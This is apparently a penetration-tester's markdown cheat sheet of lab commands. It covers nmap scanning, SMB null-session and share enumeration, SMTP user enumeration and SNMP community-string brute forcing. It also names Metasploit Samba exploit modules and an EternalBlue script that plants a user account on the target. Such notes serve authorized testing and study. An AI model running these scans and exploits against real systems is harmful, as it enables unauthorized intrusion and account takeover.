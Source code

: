 	$ sudo nmap 192.168.152.44 -p- -sV -vv --open --reason -oX 192.168.152.44.xml

### Scan all ports with default set of scripts and SYNC for faster run time
```
nmap -sC -sS -p0-65535 sandbox.local --open -oG sandboxlocal.grep -oX sandboxlocal.xml
```

## SMB (tcp 139, 445) enum:
```		
    
    //192.168.186.147 (commands - list, dir,  mget * )
		rpcclient -U "" 192.168.1.1
		smbclient -U testuser //localhost/report-upload/
		smbclient -N -L \\\\10.11.1.31
			no password, hit <Enter>
			if logged try srvinfo
		enum4linux -v 192.168.152.109
		nmap -p 139,445 --script smb-enum-users 192.168.1.0/24
		nmap -p 135,139,445 --script smb-enum-shares 192.168.1.0/24
		nmap -v -p 139,445 --script=smb-vuln-ms08-067 --script-args=unsafe=1 10.11.1.201
		nmap -p 135,139,445 --script smb-*  --script-args=unsafe=1 -oX 


		/root/mega/exploits/samba28 (made of 10.c) use exploit/linux/samba/trans2open (Unix Samba 2.2.0 to 2.2.8)
			./samba28 -b 0 -v 10.11.1.28
		use exploit/multi/samba/usermap_script (Samba 3.0.20 - 3.0.25)
		use exploit/linux/samba/lsa_transnames_heap	-Linux 3.0.21-3.0.24
		EthernalBlue (zzz_ezploit.py creating user cplsec P@ssw0rd123! on the target)
```
## SMTP (tcp 25) enum:
```
        nmap --script smtp-enum-users.nse -p 25,465,587 10.11.1.1-254 -oA .


		nc -nv 192.168.1.2 25
		HELO a
		EXPN root	-Enumeration
		VRFY user	-Enumeration
	Writing mail:
		MAIL FROM:root
		RCPT TO:root
		DATA Hello there
		.
	Enum automation:
		for user in$(cat users.txt); do echo VRFY $user |nc -nv 192.168.1.2 25 2>/dev/null |grep ^"250"	-Does not always work
		use smtp-user-enum script from pentestmonkey
```
## SNMP
```
	SNMP (udp 161):
		onesixtyone -c community_strings.txt -i listIP.txt
		onesixtyone -c snmp_strings.txt -i hosts.txt | cut -d " " -f 1 >> snmp_hosts.txt
```
